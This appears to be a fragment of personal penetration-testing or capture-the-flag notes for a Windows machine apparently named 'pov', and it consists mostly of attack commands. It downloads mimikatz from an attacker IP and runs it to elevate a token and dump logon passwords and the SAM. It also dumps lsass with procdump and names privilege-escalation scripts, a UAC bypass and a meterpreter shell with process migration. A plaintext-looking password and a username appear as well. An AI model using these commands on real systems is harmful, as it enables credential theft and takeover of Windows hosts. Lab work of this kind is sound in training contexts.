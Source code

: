 `iwr -uri http://10.10.14.209/mimikatz.exe -Outfile mimikatz.exe`
SePDebugPrivilege found
`.\mimikatz.exe privilege::debug token::elevate sekurlsa::logonpasswords lsadump::sam exit`

NADA

- **psgetsys.ps1**
- **EnableAllTokenPrivs.ps1**
- may work
```csharp
Start-Process powershell.exe -Credential "pov\alaading"

```

SHit
f8gQ8fynP44ek1m3
- UPDATE: RunasCS  bypasses UAC !
- `.\procdump.exe -accepteula -ma lsass.exe lsass.dmp`
- `.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit`
- use meterpreter to catch a shell
- migrate to a process using nt authority